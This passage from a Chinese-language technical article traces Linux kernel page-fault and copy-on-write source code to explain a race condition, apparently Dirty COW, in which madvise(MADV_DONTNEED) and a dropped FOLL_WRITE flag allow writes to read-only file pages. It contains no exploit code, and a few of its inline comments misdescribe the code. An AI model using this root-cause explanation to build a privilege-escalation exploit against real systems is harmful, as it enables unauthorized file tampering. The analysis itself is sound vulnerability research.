    if (!(gup_flags & FOLL_FORCE))     // 如果页不可写
        gup_flags |= FOLL_NUMA;     // 则标识为页错误类型
 
    do {
        struct page *page;
        unsigned int foll_flags = gup_flags;    //访问语义标志
        unsigned int page_increm;
 
        /* first iteration or cross vma bound */
        if (!vma || start >= vma->vm_end) { // 如果vma不存在或者用户起始地址大于等于vma的结束地址
            vma = find_extend_vma(mm, start);  // 则根据start找一个vma区域
            if (!vma && in_gate_area(mm, start)) {  //如果区域任然不存在并且不在Gate_addr-Gate_addr+2*pagesize范围内
                int ret;
                ret = get_gate_page(mm, start & PAGE_MASK, // 根据start去获取相应页
                        gup_flags, &vma,
                        pages ? &pages[i] : NULL);
                if (ret)  // 如果获取到了则调到该页
                    return i ? : ret;
                page_mask = 0;
                goto next_page;
            }
 
            if (!vma || check_vma_flags(vma, gup_flags))    // 检查flags，如果不满足条件
                return i ? : -EFAULT;
            if (is_vm_hugetlb_page(vma)) {    // 如果是大页表
                i = follow_hugetlb_page(mm, vma, pages, vmas,
                        &start, &nr_pages, i,
                        gup_flags); // 打印BUG错误信息
                continue;
            }
        }
retry:
        /*
         * If we have a pending SIGKILL, don't keep faulting pages and
         * potentially allocating memory.
         * 如果我们有一个挂起的SIGKILL，不用继续对页面进行错误处理并可能分配内存
         */
        if (unlikely(fatal_signal_pending(current)))
            return i ? i : -ERESTARTSYS;
        cond_resched();
        /**
 * follow_page_mask - look up a page descriptor from a user-virtual address
 * @vma: vm_area_struct mapping @address
 * @address: virtual address to look up
 * @flags: flags modifying lookup behaviour
 * @page_mask: on output, *page_mask is set according to the size of the page
 *
 * @flags can have FOLL_ flags set, defined in <linux/mm.h>
 *
 * Returns the mapped (struct page *), %NULL if no mapping exists, or
 * an error pointer if there is a mapping to something not represented
 * by a page descriptor (see also vm_normal_page()).
 */
        page = follow_page_mask(vma, start, foll_flags, &page_mask);
        // 这里返回了映射的物理页面，对应的参数有映射地址，页属性等
        if (!page) {            //当返回为NULL时
            // (a)页表中不存在物理页即缺页
            // (b)访问语义标志foll_flags对应的权限违反内存页的权限时，follow_page_mask返回值为NULL
            // 第一次是由于（a）原因
            // 第二次是由于（b）原因，对应的页表项指向的内存并没有写权限，所以返回NULL
            int ret;
            ret = faultin_page(tsk, vma, start, &foll_flags,
                    nonblocking);    //调用faultin_page处理，页错误处理
            switch (ret) {
            case 0:
                goto retry;
            case -EFAULT:
            case -ENOMEM:
            case -EHWPOISON:
                return i ? i : ret;
            case -EBUSY:
                return i;
            case -ENOENT:
                goto next_page;
            }
            BUG();  // 打印错误信息
        } else if (PTR_ERR(page) == -EEXIST) {
            /*
             * Proper page table entry exists, but no corresponding
             * struct page.
             */
            goto next_page;
        } else if (IS_ERR(page)) {
            return i ? i : PTR_ERR(page);
        }
        if (pages) {
            pages[i] = page;
            flush_anon_page(vma, page, start);
            flush_dcache_page(page);
            page_mask = 0;
        }
next_page:
        if (vmas) {
            vmas[i] = vma;
            page_mask = 0;
        }
        page_increm = 1 + (~(start >> PAGE_SHIFT) & page_mask);
        if (page_increm > nr_pages)
            page_increm = nr_pages;
        i += page_increm;
        start += page_increm * PAGE_SIZE;
        nr_pages -= page_increm;
    } while (nr_pages);
    return i;
}
EXPORT_SYMBOL(__get_user_pages);
```

其中有几个关键点。

- 访问语义标志`foll_flags`对应的权限违反内存页的权限时，`follow_page_mask`返回值为`NULL`，会触发对`faultin_page`的调用；

- `follow_page_mask`函数的作用是查询页表获取虚拟地址对应的物理页，它将按照linux页表的四级结构所示依次向下调用四层函数；

  

  ```c
  struct page *follow_page_mask(struct vm_area_struct *vma,
  			      unsigned long address, unsigned int flags,
  			      unsigned int *page_mask)
  {
  	pgd_t *pgd;
  	pud_t *pud;
  	pmd_t *pmd;
  	spinlock_t *ptl;
  	struct page *page;
  	struct mm_struct *mm = vma->vm_mm;
  
  	*page_mask = 0;
  
  	page = follow_huge_addr(mm, address, flags & FOLL_WRITE);
  	if (!IS_ERR(page)) {
  		BUG_ON(flags & FOLL_GET);
  		return page;
  	}
  
  	pgd = pgd_offset(mm, address);
  	if (pgd_none(*pgd) || unlikely(pgd_bad(*pgd)))
  		return no_page_table(vma, flags);
  
  	pud = pud_offset(pgd, address);
  	if (pud_none(*pud))
  		return no_page_table(vma, flags);
  	if (pud_huge(*pud) && vma->vm_flags & VM_HUGETLB) {
  		page = follow_huge_pud(mm, address, pud, flags);
  		if (page)
  			return page;
  		return no_page_table(vma, flags);
  	}
  	if (unlikely(pud_bad(*pud)))
  		return no_page_table(vma, flags);
  
  	pmd = pmd_offset(pud, address);
  	if (pmd_none(*pmd))
  		return no_page_table(vma, flags);
  	if (pmd_huge(*pmd) && vma->vm_flags & VM_HUGETLB) {
  		page = follow_huge_pmd(mm, address, pmd, flags);
  		if (page)
  			return page;
  		return no_page_table(vma, flags);
  	}
  	if ((flags & FOLL_NUMA) && pmd_protnone(*pmd))
  		return no_page_table(vma, flags);
  	if (pmd_trans_huge(*pmd)) {
  		if (flags & FOLL_SPLIT) {
  			split_huge_page_pmd(vma, address, pmd);
  			return follow_page_pte(vma, address, pmd, flags);
  		}
  		ptl = pmd_lock(mm, pmd);
  		if (likely(pmd_trans_huge(*pmd))) {
  			if (unlikely(pmd_trans_splitting(*pmd))) {
  				spin_unlock(ptl);
  				wait_split_huge_page(vma->anon_vma, pmd);
  			} else {
  				page = follow_trans_huge_pmd(vma, address,
  							     pmd, flags);
  				spin_unlock(ptl);
  				*page_mask = HPAGE_PMD_NR - 1;
  				return page;
  			}
  		} else
  			spin_unlock(ptl);
  	}
  	return follow_page_pte(vma, address, pmd, flags);
  }
  ```

  **first page fault**
  
  当第一次调用`follow_page_mask`返回的是`NULL`，还未存在相应的物理页，即缺页，触发页错误的机制去申请；
  
  ```c
  static int faultin_page(struct task_struct *tsk, struct vm_area_struct *vma,
  		unsigned long address, unsigned int *flags, int *nonblocking)
  
  int handle_mm_fault(struct mm_struct *mm, struct vm_area_struct *vma,
  		    unsigned long address, unsigned int flags)
  			
  static int __handle_mm_fault(struct mm_struct *mm, struct vm_area_struct *vma,
  			     unsigned long address, unsigned int flags)
  
  static int handle_pte_fault(struct mm_struct *mm,
  		     struct vm_area_struct *vma, unsigned long address,
  		     pte_t *pte, pmd_t *pmd, unsigned int flags)
  		     
  /*
   * These routines also need to handle stuff like marking pages dirty
   * and/or accessed for architectures that don't do it in hardware (most
   * RISC architectures).  The early dirtying is also good on the i386.
   *
   * There is also a hook called "update_mmu_cache()" that architectures
   * with external mmu caches can use to update those (ie the Sparc or
   * PowerPC hashed page tables that act as extended TLBs).
   *
   * We enter with non-exclusive mmap_sem (to exclude vma changes,
   * but allow concurrent faults), and pte mapped but not yet locked.
   * We return with pte unmapped and unlocked.
   *
   * The mmap_sem may have been released depending on flags and our
   * return value.  See filemap_fault() and __lock_page_or_retry().
   */
  static int handle_pte_fault(struct mm_struct *mm,
  		     struct vm_area_struct *vma, unsigned long address,
  		     pte_t *pte, pmd_t *pmd, unsigned int flags)
  {
  	pte_t entry;
  	spinlock_t *ptl;
  
  	/*
  	 * some architectures can have larger ptes than wordsize,
  	 * e.g.ppc44x-defconfig has CONFIG_PTE_64BIT=y and CONFIG_32BIT=y,
  	 * so READ_ONCE or ACCESS_ONCE cannot guarantee atomic accesses.
  	 * The code below just needs a consistent view for the ifs and
  	 * we later double check anyway with the ptl lock held. So here
  	 * a barrier will do.
  	 */
  	entry = *pte;
  	barrier();
  	if (!pte_present(entry)) {     // 判断pte页表项是否为空，即是否缺页
  		if (pte_none(entry)) {     // 如果缺页
  			if (vma_is_anonymous(vma))   // 如果是一个匿名页，即没有堆、栈、数据段等，不以文件形式存在
  				return do_anonymous_page(mm, vma, address,  // 则创建一个匿名页
  							 pte, pmd, flags);
  			else
  				return do_fault(mm, vma, address, pte, pmd,  // 如果不是匿名页，调用do_fault()
  						flags, entry);
  		}
  		return do_swap_page(mm, vma, address,   //替换页
  					pte, pmd, flags, entry);
  	}
  
  	if (pte_protnone(entry))
  		return do_numa_page(mm, vma, address, entry, pte, pmd);
  
  	ptl = pte_lockptr(mm, pmd);
  	spin_lock(ptl);
  	if (unlikely(!pte_same(*pte, entry)))
  		goto unlock;
  	if (flags & FAULT_FLAG_WRITE) {      // 如果页表项存在并且存在写操作
  		if (!pte_write(entry))          // 如果页表项不可写
  			return do_wp_page(mm, vma, address,   // 调用do_wp_page()
  					pte, pmd, ptl, entry);
  		entry = pte_mkdirty(entry);
  	}
  	entry = pte_mkyoung(entry);
  	if (ptep_set_access_flags(vma, address, pte, entry, flags & FAULT_FLAG_WRITE)) {
  		update_mmu_cache(vma, address, pte);
  	} else {
  		/*
  		 * This is needed only for protection faults but the arch code
  		 * is not yet telling us if this is a protection fault or not.
  		 * This still avoids useless tlb flushes for .text page faults
  		 * with threads.
  		 */
  		if (flags & FAULT_FLAG_WRITE)
  			flush_tlb_fix_spurious_fault(vma, address);
  	}
  unlock:
  	pte_unmap_unlock(pte, ptl);
  	return 0;
  }
  ```
  
  下面来看调用`do_fault`所做的处理；
  
  ```c
  /*
   * We enter with non-exclusive mmap_sem (to exclude vma changes,
   * but allow concurrent faults).
   * The mmap_sem may have been released depending on flags and our
   * return value.  See filemap_fault() and __lock_page_or_retry().
   */
  static int do_fault(struct mm_struct *mm, struct vm_area_struct *vma,
  		unsigned long address, pte_t *page_table, pmd_t *pmd,
  		unsigned int flags, pte_t orig_pte)
  {
  	pgoff_t pgoff = (((address & PAGE_MASK)
  			- vma->vm_start) >> PAGE_SHIFT) + vma->vm_pgoff;
  
  	pte_unmap(page_table);
  	/* The VMA was not fully populated on mmap() or missing VM_DONTEXPAND */
  	if (!vma->vm_ops->fault)
  		return VM_FAULT_SIGBUS;
  	if (!(flags & FAULT_FLAG_WRITE))     // 如果有写操作
  		return do_read_fault(mm, vma, address, pmd, pgoff, flags,   // 调用do_read_fault处理，不执行COW，直接映射文件
  				orig_pte);
  	if (!(vma->vm_flags & VM_SHARED))   // 如果页不是共享页，即COW的私有映射，而且目标内存有可写权限
  		return do_cow_fault(mm, vma, address, pmd, pgoff, flags,    // 调用do_cow_fault
  				orig_pte);
  	return do_shared_fault(mm, vma, address, pmd, pgoff, flags, orig_pte);
  }
  ```
  
  再跟踪看看`do_cow_fault`；
  
  ```c
  static int do_cow_fault(struct mm_struct *mm, struct vm_area_struct *vma,
  		unsigned long address, pmd_t *pmd,
  		pgoff_t pgoff, unsigned int flags, pte_t orig_pte)
  {
  	struct page *fault_page, *new_page;
  	struct mem_cgroup *memcg;
  	spinlock_t *ptl;
  	pte_t *pte;
  	int ret;
      // ...
      
  	new_page = alloc_page_vma(GFP_HIGHUSER_MOVABLE, vma, address);
  	if (!new_page)
  		return VM_FAULT_OOM;
      // ...
  	ret = __do_fault(vma, address, pgoff, flags, new_page, &fault_page);
  	if (unlikely(ret & (VM_FAULT_ERROR | VM_FAULT_NOPAGE | VM_FAULT_RETRY)))
  		goto uncharge_out;
  
  	if (fault_page)
  		copy_user_highpage(new_page, fault_page, address, vma);
  	__SetPageUptodate(new_page);
      // ...
  	do_set_pte(vma, address, new_page, pte, true, true);      // 这里调用do_set_pte，设置pte表项
  	mem_cgroup_commit_charge(new_page, memcg, false);
  	lru_cache_add_active_or_unevictable(new_page, vma);
  	pte_unmap_unlock(pte, ptl);
  	if (fault_page) {
  		unlock_page(fault_page);
  		page_cache_release(fault_page);
  	} else {
  		/*
  		 * The fault handler has no page to lock, so it holds
  		 * i_mmap_lock for read to protect against truncate.
  		 */
  		i_mmap_unlock_read(vma->vm_file->f_mapping);
  	}
  	return ret;
      // ...
  ```
  
  跟踪`do_set_pte`；
  
  ```c
  void do_set_pte(struct vm_area_struct *vma, unsigned long address,
  		struct page *page, pte_t *pte, bool write, bool anon)
  {
  	pte_t entry;
  
  	flush_icache_page(vma, page);
  	entry = mk_pte(page, vma->vm_page_prot);
  	if (write)           // 如果write_flag为true
  		entry = maybe_mkwrite(pte_mkdirty(entry), vma);        // 做ptewrite当且仅当vma的vm_flags中的VM_WRITE位为1，如果执行到这里，pte_mkdirty()会将对应页标记为脏
      // ...
  }
  
      /*
       static inline pte_t maybe_mkwrite(pte_t pte, struct vm_area_struct *vma)
      {
          if (likely(vma->vm_flags & VM_WRITE))       
              pte = pte_mkwrite(pte);                   // 这里调用了pte_mkwrite()
          return pte;
      }
       */
  
      /*
      static inline pte_t pte_mkdirty(pte_t pte)
      {
          return pte_set_flags(pte, _PAGE_DIRTY | _PAGE_SOFT_DIRTY);         // 将页面标脏
      }
      */
  ```
  

之前的漏洞是在get_user_pages函数中，这个函数能够获取用户进程调用的虚拟地址之后的物理地址，调用者需要声明它想要执行的具体操作(例如写/锁等操作)，所以内存管理可以准备相对应的内存页。具体来说，也就是当进行写入私有映射的内存页时，会经过一个COW(写时拷贝)的过程，即复制只读页生成一个带有写权限的新页，原始页可能是私有保护不可写的，但它可以被其他进程映射使用。用户也可以在COW后的新页中修改内容之后重新写入到磁盘中。

整个while循环的目的是获取请求页队列中的每个页，反复操作直到满足构建所有内存映射的需求，这也是retry标签的作用；

follow_page_mask读取页表来获取指定地址的物理页(同时通过PTE允许)或获取不满足需求的请求内容；

在follow_page_mask操作中会获取PTE的spinlock，用来保护试图获取内容的物理页不会被释放掉；

faultin_page函数申请内存管理的权限(同样有PTE的spinlock保护)来处理目标地址中的错误信息；

在成功调用faultin_page后，锁会自动释放，从而保证follow_page_mask能够成功进行下一次尝试，以下是涉及到的代码。

一般情况下在COW操作后移除FOLL_WRITE标志是没有问题的，因为这时VMA指向的页是刚经过写时拷贝复制的新页，我们是有写权限的，后续不进行写权限检查并不会有问题。 但是，考虑这样一种情况，如果在这个时候用户通过madvise(MADV_DONTNEED)将刚刚申请的新页丢弃掉，那这时本来在faultin_page后应该成功的follow_page_mask会再次失败，又会进入faultin_page的逻辑，但是这个时候已经没有FOLL_WRITE的权限检查了，只会检查可读性。这时内核就会将只读页面直接映射到我们的进程空间里，这时VMA指向的页不再是通过COW获得的页，而是文件的原始页，这就获得了任意写文件的能力。

## 缺页中断处理

1) 硬件陷入内核，在堆栈中保存程序计数器。大多数机器将当前指令的各种状态信息保存在特殊的CPU寄存器中。

2) 启动一个汇编代码例程保存通用寄存器和其他易失的信息，以免被操作系统破坏。这个例程将操作系统作为一个函数来调用。

3) 当操作系统发现一个缺页中断时，尝试发现需要哪个虚拟页面。通常一个硬件寄存器包含了这一信息，如果没有的话，操作系统必须检索程序计数器，取出这条指令，用软件分析这条指令，看看它在缺页中断时正在做什么。

4) 一旦知道了发生缺页中断的虚拟地址，操作系统检查这个地址是否有效，并检查存取与保护是否一致。如果不一致，向进程发出一个信号或杀掉该进程。如果地址有效且没有保护错误发生，系统则检查是否有空闲页框。如果没有空闲页框，执行页面置换算法寻找一个页面来淘汰。

5) 如果选择的页框“脏”了，安排该页写回磁盘，并发生一次上下文切换，挂起产生缺页中断的进程，让其他进程运行直至磁盘传输结束。无论如何，该页框被标记为忙，以免因为其他原因而被其他进程占用。

6) 一旦页框“干净”后（无论是立刻还是在写回磁盘后），操作系统查找所需页面在磁盘上的地址，通过磁盘操作将其装入。该页面被装入后，产生缺页中断的进程仍然被挂起，并且如果有其他可运行的用户进程，则选择另一个用户进程运行。

7) 当磁盘中断发生时，表明该页已经被装入，页表已经更新可以反映它的位置，页框也被标记为正常状态。

8) 恢复发生缺页中断指令以前的状态，程序计数器重新指向这条指令。

9) 调度引发缺页中断的进程，操作系统返回调用它的汇编语言例程。

10) 该例程恢复寄存器和其他状态信息，返回到用户空间继续执行，就好像缺页中断没有发生过一样。

```c
get_user_pages{//这是一个Wrap
    ...
    return __get_user_pages() //获取用户内存的核心函数
    ...
}
__get_user_pages(vma,...,int flag,...){
    ...
    retry:
        ...
        page = follow_page_mask(...,flag,...); //获取页表项
       if (!page) {
            int ret;
            ret = faultin_page(vma,...); //获取失败时会调用这个函数
            switch (ret) {
               case 0://如果返回为0，就重试，这是一个循环
               goto retry;
            ...

        }
}
follow_page_mask(...,flag,...){
    //这个函数会走 页一集目录->二级目录->页表项 的传统页式内存的管理流程
    ...
    return follow_page_pte(...,flag,...); //走到了流程的第三步：寻找页表项
    ...
}
follow_page_pte(...,flag,...){
    ...
    //如果获取页表项时要求页表项所指向的内存映射具有写权限，但是页表项所指向的内存并没有写权限。则会返回空
    if ((flags & FOLL_WRITE) && !pte_write(pte)) { 
       pte_unmap_unlock(ptep, ptl);
       return NULL;
    }

    //获取页表项的请求不要求内存映射具有写权限的话会返回页表项
    return pages;
    ...
}
faultin_page(vma,){
    ...
    //处理page fault
    ret = handle_mm_fault();
    //这个if对应了上一个函数的注释，如果是因为映射没有写权限导致的获取页表项失败，会去掉flags中的FOLL_WRITE标记，从而使的获取页表项不再要求内存映射具有写的权限。
    if ((ret & VM_FAULT_WRITE) && !(vma->vm_flags & VM_WRITE))
       *flags &= ~FOLL_WRITE;
    ...
    return 0；
}
handle_mm_fault(){
    __handle_mm_fault()
}
__handle_mm_fault(){
    handle_pte_fault()
}
handle_pte_fault(){
    //页表为空，说明缺页。调用do_fault调页
    if (!fe->pte) {
          ... 
         return do_fault(fe);
   }
   //页表不为空，但是要写入的页没有写权限，这时可能需要COW
   if (fe->flags & FAULT_FLAG_WRITE) {
        if (!pte_write(entry))
            return do_wp_page(fe, entry);
        ...
    }
}
do_fault(fe){
    //如果不要求目标内存具有写权限时导致缺页，内核不会执行COW操作产生副本
    if (!(fe->flags & FAULT_FLAG_WRITE))
        return do_read_fault(fe, pgoff);
    //如果要求目标内存具有写权限时导致缺页，目标内存映射是一个VM_PRIVATE的映射，内核会执行COW操作产生副本
    if (!(vma->vm_flags & VM_SHARED))
        return do_cow_fault(fe, pgoff);
}
do_cow_fault(fe,pgoff){
    //执行COW， 并更新页表为COW后的页表。
    new_page = alloc_page_vma(GFP_HIGHUSER_MOVABLE, vma, fe->address);
    ...
    // __do_fault会将内存
    ret = __do_fault(fe, pgoff, new_page, &fault_page, &fault_entry);
    ... 
        copy_user_highpage(new_page, fault_page, fe->address, vma);
    ret |= alloc_set_pte(fe, memcg, new_page);
    ...
    return ret
}
do_read_fault(fe,pgoff){
    ...
    //不执行COW，直接映射文件。
    __do_fault(fe, pgoff, NULL, &fault_page, NULL);
    ...
    ret |= alloc_set_pte(fe, NULL, fault_page);
    ...
    ret
}
alloc_set_pte(fe,...){
    bool write = fe->flags & FAULT_FLAG_WRITE;
    //如果执行了COW，设置页表时会将页面标记为脏，但是不会标记为可写。
    if (write)
        entry = maybe_mkwrite(pte_mkdirty(entry), vma);
}
do_wp_page(fe,entry){
     ....
     //内核通过检查，发现COW操作已经在缺页处理时完成了，所以不再进行COW，而是直接利用之前COW得到的页表项
     return wp_page_reuse(fe, orig_pte, old_page, 0, 0);
}
wp_page_reuse(){
     将页面标记为脏，但是不会标记为可写。
     entry = maybe_mkwrite(pte_mkdirty(entry), vma);
}
maybe_mkwrite(){
    //这就是maybe_mkwrite不会标记页为可写的原因，因为这个页为只读页。所以不满足if的条件
    if (likely(vma->vm_flags & VM_WRITE))
        pte = pte_mkwrite(pte);
    return pte;
}
```

[anquanke](https://www.anquanke.com/post/id/84784)

